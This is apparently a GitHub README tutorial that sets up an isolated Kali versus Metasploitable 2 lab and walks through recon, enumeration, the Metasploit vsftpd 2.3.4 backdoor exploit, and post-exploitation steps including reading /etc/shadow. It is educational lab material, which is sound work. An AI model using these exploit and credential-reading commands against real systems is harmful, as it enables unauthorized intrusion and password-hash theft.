 # 🛡️ A Detailed guide to setting up a safe and Real world penetration testing lab.
<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Attacker-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Target-Metasploitable-red?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Status-Active-orange?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This lab provides a **safe, isolated, real-world environment** to practice penetration testing techniques from reconnaissance to post-exploitation.

**Lab Components:**

| Machine   | OS             | IP Address       | Role                        |
|----------|----------------|----------------|----------------------------|
| Attacker | Kali Linux     | 192.168.142.128 | Pentester machine          |
| Target   | Metasploitable 2 | 192.168.142.130 | Vulnerable machine         |

**Lab Objective:**  
- Simulate real-world penetration testing scenarios.  
- Gain hands-on experience with scanning, enumeration, exploitation, and reporting.  

## 🔹 Lab Setup

### 1. Requirements

* **Virtualization software:** VirtualBox or VMware
* **Attacker VM:** Kali Linux
* **Target VM:** Metasploitable 2
* **Network isolation:** Internal network or host-only adapter
* **Snapshots:** Take snapshots before starting

### 2. Network Configuration

1. Set VMs to **Host-Only Adapter**:

   * Attacker: 192.168.142.128
   * Target: 192.168.142.130
 
2. Verify connectivity:

```bash
ping 192.168.142.130
```
  <p align="center">
  <img src="https://github.com/ZeeshanKeyani/Real-world-penetration-testing-environment-in-a-safe-isolated-network./blob/main/img/3-metasploit.JPG" />
   </p>


## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

```bash
whois 192.168.142.130
nmap -sP 192.168.142.0/24
```
 <p align="center">
   <img "src="https://github.com/ZeeshanKeyani/Real-world-penetration-testing-environment-in-a-safe-isolated-network./blob/main/img/4-nmap.JPG" />
    </p>
* Collect IP, domain, and server info.
* No interaction with target.

#### Active Recon

```bash
nmap -sS -Pn 192.168.142.130
nmap -p- -A -T4 192.168.142.130
```

**Example Output:**

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1
23/tcp   open  telnet
80/tcp   open  http    Apache 2.2.8
139/tcp  open  netbios-ssn Samba smbd 3.X
445/tcp  open  netbios-ssn Samba smbd 3.X
```

---

### Step 2: Enumeration

#### FTP Enumeration

```bash
nc 192.168.142.130 21
```

* Check banner for service version.

```bash
ftp 192.168.142.130
# Attempt anonymous login
```

#### SMB Enumeration

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux -a 192.168.142.130
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to identify exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit samba
```

* Check Metasploit modules:

```bash
msfconsole
search vsftpd
```

---

### Step 4: Exploitation

#### Example: FTP Backdoor

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
exploit
```

#### Verify Access

```bash
whoami
id
```

**Expected Output:**

```
uid=0(root) gid=0(root) groups=0(root)
```

---

### Step 5: Post-Exploitation

* System enumeration:

```bash
uname -a
cat /etc/passwd
ifconfig
```

* Privilege escalation check:

```bash
sudo -l
```

* Dump hashes or sensitive info (for lab purposes only):

```bash
cat /etc/shadow
```


### Step 6: Reporting

* Document all findings.
* Include screenshots and proof-of-concept.

**Report Template:**

| Vulnerability        | Exploit Used          | Impact              | Mitigation                                   |
| -------------------- | --------------------- | ------------------- | -------------------------------------------- |
| FTP Backdoor         | vsftpd 2.3.4          | Remote Shell Access | Upgrade FTP server / Disable anonymous login |
| SMB Misconfiguration | Metasploit smb module | Data Exposure       | Patch Samba / Restrict SMB access            |

---

## 🔹 Recommended Tools

| Tool                   | Purpose                           |
| ---------------------- | --------------------------------- |
| Nmap / Zenmap          | Port scanning & service discovery |
| Netcat                 | Banner grabbing & connectivity    |
| Metasploit             | Exploit development & execution   |
| Nikto / Dirb           | Web vulnerability scanning        |
| Enum4linux / smbclient | Windows/SMB enumeration           |
| Wireshark              | Network traffic analysis          |

---

## 🔹 Best Practices

1. Always **take snapshots** before testing.
2. Use **isolated lab networks**.
3. Document each phase with screenshots and notes.
4. Never attack systems **without permission**.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Unauthorized penetration testing is illegal and unethical.

